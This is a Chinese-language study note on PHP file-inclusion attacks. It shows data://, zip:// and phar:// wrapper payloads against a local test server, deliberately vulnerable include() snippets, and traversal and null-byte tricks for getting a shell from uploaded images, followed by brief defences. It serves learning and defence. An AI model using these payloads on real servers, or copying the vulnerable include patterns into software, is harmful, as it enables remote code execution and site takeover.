

测试`data://`  

`data://text/plain;base64,base64编码的payload`

index.php
```php
<?php $a = $_GET['a']; include($a);?>
```

访问`http://127.0.0.1:8099/?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyBleGl0KCk7Pz4K`


这里的base64字符串最好不要包含`+`，会被当成空格


测试`zip://`  

有的时候可能只允许上传`.zip`的文件  

PS：貌似我的环境没有开启？？？




测试`phar://`  

phar是将文件归档到一个文件包里面，这里是`zip 1234.zip index2.php`

这个可以用在后缀名只能是php但是只能上传某后缀的文件



这里跟后缀名是没有关系的

`http://127.0.0.1:8099/?a=phar://1234.jpg/index2.php`  



步骤就是创建一个shell文件(不管什么后缀)，然后用zip命令压缩(不管什么后缀)，然后访问`phar://xxx.xxx/shell.xx`

`http://127.0.0.1:8099/?a=phar://456.jpg/index2.jpg`




常见代码

```
1.包含文件上传的图片
<?php
if ($_GET[page]) {
include($_GET[page]);
} else {
include "show.php";
} //利用page=/uploads/xxx.jpg
用户控制$_GET[page]里面内容 包含一个带有恶意代码的上传图片。getshell
（其中要找到上传图片的绝得路径）
2.包含文件上传的第二种
<?php
if ($_GET[page]) {
include("./action/".$_GET[page]);
} else {
include "./action/show.php";
} //利用page=../uploads/xxx.jpg 跳出当前目录
3.第三种包含上传
<?php
if ($_GET[page]) {
include("./action/".$_GET[page].".php");
} else {
include "./action/show.php";
} // 可以看出会在后面追加一个.php后缀 ../uploads/xxx.jpg%00截断后面的.php
需要开启（magic_quotes_gpc=off，php小于5.3.4）
```

防御
* PHP中使用open_basedir限制访问区域
* 过滤.（点）/（斜杠）\（反斜杠）
* 禁止服务器远程文件包含。


[更多包含的姿势1](http://ly0n.me/2015/10/19/lfi-beyond-procselfenviron/)  

[更多包含姿势2](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)

[更多包含姿势3](http://vinc.top/2016/08/25/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/)

[更多包含姿势4](https://highon.coffee/blog/lfi-cheat-sheet/)


[更多包含姿势5](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)
